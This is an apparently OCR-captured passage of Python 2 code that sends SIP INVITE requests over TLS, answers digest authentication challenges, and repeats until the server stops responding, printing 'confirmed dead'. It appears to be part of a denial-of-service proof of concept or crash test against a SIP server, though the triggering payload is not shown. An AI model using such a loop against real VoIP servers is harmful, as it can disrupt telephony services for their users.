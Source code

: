```python

            msg = "INVITE sip:%s@%s:%i SIP/2.0\r\n" \
                "To: <sip:%s@%s:%i>\r\n" \
                "From: Test <sip:%s@%s:%s>\r\n" \
                "Call-ID: %s\r\n" \
                "CSeq: 2 INVITE\r\n" \
                "Via: SIP/2.0/TLS 172.17.0.1:10394;branch=z9hG4bK%s\r\n" \
                "Contact: <sip:%s@172.17.0.1>\r\n" \
                "Content-Type: application/sdp\r\n" \
                "{{AUTH}}" \
                "Content-Length: %i\r\n" \
                "\r\n" % (
                    INVITE_USERNAME, SERVER_IP, SERVER_PORT,
                    INVITE_USERNAME, SERVER_IP, SERVER_PORT,
                    USERNAME, SERVER_IP, SERVER_PORT,
                    callid, callid,
                    USERNAME, len(sdpbody)
                ) + \
                sdpbody

            sock.sendall(msg.replace("{{AUTH}}", ""))

            data = sock.recv(10240)
            # print(data)
            if data.startswith("SIP/2.0 401"):
                for line in data.split('\r\n'):
                    if line.startswith("WWW-Authenticate"):
                        content = line.split(':', 2)[1].strip()
                        realm = re.search(
                            "realm=\"([a-z]+)\"", content).group(1)
                        nonce = re.search(
                            "nonce=\"([a-z0-9\/]+)\"", content).group(1)
                        ha1 = md5.new(USERNAME + ":" + realm +
                                      ":" + PASSWORD).hexdigest()
                        uri = "sip:%s:%i" % (SERVER_IP, SERVER_PORT)
                        ha2 = md5.new("INVITE:" + uri).hexdigest()
                        r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

                        auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                            "realm=\"%s\"," % (realm) + \
                            "nonce=\"%s\"," % (nonce) + \
                            "uri=\"%s\"," % (uri) + \
                            "response=\"%s\"," % (r) + \
                            "algorithm=md5\r\n"
                        print(auth)

            sock.sendall(msg.replace("{{AUTH}}", auth))
            errno = 0
    except (socket.error, ssl.SSLEOFError), err:
        print(err)
        print("getting close!")
        sleep(2)
        errno += 1
    if errno >= 10:
        print("confirmed dead")
        break
    elif errno > lasterrno:
        lasterrno = errno
        continue
```
